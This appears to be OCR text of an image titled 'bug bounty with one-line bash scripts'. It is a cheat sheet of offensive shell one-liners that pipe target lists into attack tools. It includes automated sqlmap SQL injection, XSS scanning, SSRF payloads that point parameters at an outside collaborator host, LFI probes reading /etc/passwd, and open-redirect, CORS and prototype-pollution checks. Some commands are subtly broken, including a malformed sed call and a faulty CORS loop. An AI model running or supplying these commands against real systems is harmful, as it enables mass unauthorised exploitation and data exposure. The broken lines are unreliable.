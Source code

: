 👨‍💻 BUG BOUNTY WITH ONE-LINE BASH SCRIPTS 🕵️

𝐗𝐒𝐒 ⪼

cat targets.txt | anew | httpx -silent -threads 500 | xargs -I@ dalfox url @
cat targets.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"

𝐒𝐐𝐋𝐢 ⪼

httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'

𝐒𝐒𝐑𝐅 ⪼

findomain -t http://target.com -q | httpx -silent -threads 1000 | gau | grep "=" | qsreplace 𝘩𝘵𝘵𝘱://𝘠𝘖𝘜𝘙.𝘣𝘶𝘳𝘱𝘤𝘰𝘭𝘭𝘢𝘣𝘰𝘳𝘢𝘵𝘰𝘳.𝘯𝘦𝘵

𝐋𝐅𝐈 ⪼

gau http://vuln.target.com | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'

𝐎𝐏𝐄𝐍 𝐑𝐄𝐃𝐈𝐑𝐄𝐂𝐓 ⪼

gau http://vuln.target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'

𝐏𝐑𝐎𝐓𝐎𝐓𝐘𝐏𝐄 𝐏𝐎𝐋𝐋𝐔𝐓𝐈𝐎𝐍 ⪼

subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"

𝐂𝐎𝐑𝐒 ⪼

gau http://vuln.target.com | while read url;do target=$(curl -s -I -H "Origin: https://evvil.com" -X GET $url) | if grep 'https://evvil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done

𝐄𝐱𝐭𝐫𝐚𝐜𝐭 .𝐣𝐬 ⪼

echo http://target.com | haktrails subdomains | httpx -silent | getJS --complete | tojson | anew JS1
assetfinder http://vuln.target.com | waybackurls | grep -E "\.json(?:onp?)?$" | anew

𝐄𝐱𝐭𝐫𝐚𝐜𝐭 𝐔𝐑𝐋𝐬 𝐟𝐫𝐨𝐦 𝐜𝐨𝐦𝐦𝐞𝐧𝐭 ⪼

cat targets.txt | html-tool comments | grep -oE '\b(https?|http)://[-A-Za-z0-9+&@#/%?=~_|!:,.;]*[-A-Za-z0-9+&@#/%=~_|]'

𝐃𝐮𝐦𝐩 𝐈𝐧-𝐬𝐜𝐨𝐩𝐞 𝐀𝐬𝐬𝐞𝐭𝐬 𝐟𝐫𝐨𝐦 𝐇𝐚𝐜𝐤𝐞𝐫𝐎𝐧𝐞 ⪼

curl -sL 𝘩𝘵𝘵𝘱𝘴://𝘨𝘪𝘵𝘩𝘶𝘣.𝘤𝘰𝘮/𝘢𝘳𝘬𝘢𝘥𝘪𝘺𝘵/𝘣𝘰𝘶𝘯𝘵𝘺-𝘵𝘢𝘳𝘨𝘦𝘵𝘴-𝘥𝘢𝘵𝘢/𝘣𝘭𝘰𝘣/𝘮𝘢𝘴𝘵𝘦𝘳/𝘥𝘢𝘵𝘢/𝘩𝘢𝘤𝘬𝘦𝘳𝘰𝘯𝘦_𝘥𝘢𝘵𝘢.𝘫𝘴𝘰𝘯?𝘳𝘢𝘸=𝘵𝘳𝘶𝘦 | jq -r '.[].targets.in_scope[] | [.asset_identifier, .asset_type]

𝐅𝐢𝐧𝐝 𝐥𝐢𝐯𝐞 𝐡𝐨𝐬𝐭/𝐝𝐨𝐦𝐚𝐢𝐧/𝐚𝐬𝐬𝐞𝐭𝐬 ⪼

subfinder -d http://vuln.target.com -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u

𝐒𝐜𝐫𝐞𝐞𝐧𝐬𝐡𝐨𝐭 ⪼

assetfinder -subs-only http://target.com | httpx -silent -timeout 50 | xargs -I@ sh -c 'gowitness single @'
